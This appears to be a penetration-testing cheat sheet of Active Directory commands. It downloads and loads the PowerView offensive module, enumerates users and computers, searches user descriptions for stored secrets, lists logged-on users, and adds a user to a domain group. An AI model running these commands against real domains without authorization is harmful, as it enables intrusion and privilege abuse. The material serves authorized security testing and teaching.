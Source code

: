 * Configure PowerView Module
```
curl https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 -o PowerView.ps1
. .\PowerView.ps1
```

* List all AD users - properties/description
```
Get-ADUser -Filter * (AD Module)
Get-NetUser (PowerView)
Get-NetUser -Username user (PowerView)
Get-UserProperty (PowerView)
Get-UserProperty -Filter pwdlastset (PowerView)
Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description
Find-UserField -SearchField Description -SearchTerm "built"
```

* Get all information from a specific user, format it in a table and seeing only the Name attribute
```
Get-ADUser -Identity <user> -Server <server> -Properties * | Format-Table Name,SamAccountName -A
```

* Logged On Users
```
Get-NetLoggedon -ComputerName <domain>
```

* Get locally logged users
```
Get-LoggedonLocal -ComputerName <domain>
```

* Last logon
```
Get-LastLoggedOn -ComputerName <domain>
```

* List Computers
```
Get-NetComputer (PowerView)
Get-NetComputer -OperatingSystem "*<version>*" (PowerView)
Get-NetComputer -Ping (PowerView)
Get-NetComputer -FullData (PowerView)
Get-ADComputer -Filter * -Properties * (AD Module)
Get-ADComputer -Filter * | select Name (AD Module)
Get-ADComputer -Filter * |  findstr <organizationalunit> (AD Module)
Get-ADComputer -Filter 'OperatingSystem -like "*Server 2016*"' -Properties OperatingSystem | select Name,OperatingSystem (AD Module)
Get-ADComputer -Filter * -Properties DNSHostName | %{Test-Connection -Count 1 -ComputerName $_.DNSHostName} (AD Module)
```

* Add domain user to a domain group
```
Add-DomainGroupMember -Identity 'SQLManagers' -Members 'examed'
Get-NetGroupMember -GroupName 'SQLManagers'
```
